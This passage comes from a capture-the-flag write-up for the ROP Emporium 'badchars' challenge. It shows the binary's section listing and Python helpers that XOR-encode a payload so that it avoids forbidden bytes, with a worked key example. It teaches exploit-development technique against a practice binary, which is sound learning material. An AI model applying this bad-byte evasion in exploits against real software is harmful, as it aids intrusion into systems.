 
```
$ rabin2 -S ./badchars
[Sections]

nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
...
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
...

```

We can now construct our exploit. I will split up the code into the 4 steps mentioned above.

## Encoding the payload

The first step is to encode our string using the XOR cipher. The `encode()` function below takes an `input` of 8 bytes and encodes it using an 8-byte `key`. This 8-byte key can be generated by passing an integer between 0 and 255 to `extend_byte()`, which duplicates this integer 8 times to create an integer that is 8 bytes long.

```python
# taken from `https://jasper.la/posts/ropemporium-5-badchars/`
def extend_byte(byte: int) -> int:
    """
    Extend a byte into a 64-bit integer by duplicating the byte 8 times
    """
    return int("0x" + (hex(byte)[2:4])*8, 16)

# input must be 8 bytes long, key must be between 0 and 255
def encode(input: bytes, key: int, badchars: bytes) -> bytes:
    unencoded = u64(input)
    encoded = p64(unencoded ^ key)
    for badchar in badchars:
        if p8(badchar) in encoded:
            raise ValueError(f"bad byte in final encoded: {encoded}")
    return encoded
```

All we have to do now is to select our key and encode our payload using the `encode()` function. The key that I have chosen to use is `0xa9`. We should ensure that the first bit of the key is a 1, because this guarantees that all of the encoded characters are not within the ASCII range of 0 to 127. For example, `'x'` is `0x78`. When we encode it using `0xa9` as the key, we get `0xd1`, which is outside the ASCII encoding space.

```
  0111 1000 <- 0x78
^ 1010 1001 <- 0xa9
-----------
  1101 0001 <- 0xd1
```
